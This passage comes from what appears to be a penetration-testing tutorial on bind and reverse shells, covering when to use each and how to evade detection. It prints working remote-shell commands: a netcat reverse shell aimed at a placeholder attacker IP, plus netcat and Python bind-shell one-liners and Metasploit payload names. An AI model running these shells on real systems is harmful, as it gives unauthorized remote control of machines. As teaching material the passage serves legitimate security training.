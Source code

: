 ### Disadvantages of Reverse Shells

- Requires attacker to have a public IP or be reachable from the target
- More complex to set up in some cases
- Dependent on outbound connectivity from the target
- May be detected by egress filtering or unusual outbound connections

### Example Reverse Shell Setup (Netcat)

On attacker system:
```
nc -nlvp 4444    # Set up listener on port 4444
```

On target system:
```
nc <attacker_ip> 4444 -e /bin/bash    # Linux
nc <attacker_ip> 4444 -e cmd.exe      # Windows
```

## When to Use Each Type

### Use Bind Shells When:

- The target has a public IP address
- Inbound connections to the target are allowed
- The target cannot initiate outbound connections
- You're on the same network as the target
- Firewall rules permit incoming connections to your chosen port

### Use Reverse Shells When:

- The target is behind a firewall or NAT
- The target can initiate outbound connections
- You want to evade detection
- You don't have direct access to the target's network
- You're conducting an external penetration test

## Common Shell Payloads

### Bind Shell Payloads

1. **Netcat**: `nc -nlvp 4444 -e /bin/bash`
2. **Python**: 
   ```python
   python -c 'import socket,subprocess,os;s=socket.socket();s.bind(("0.0.0.0",4444));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);subprocess.call(["/bin/bash","-i"])'
   ```
3. **Metasploit**: `windows/shell_bind_tcp` or `linux/x86/shell_bind_tcp`

### Reverse Shell Payloads
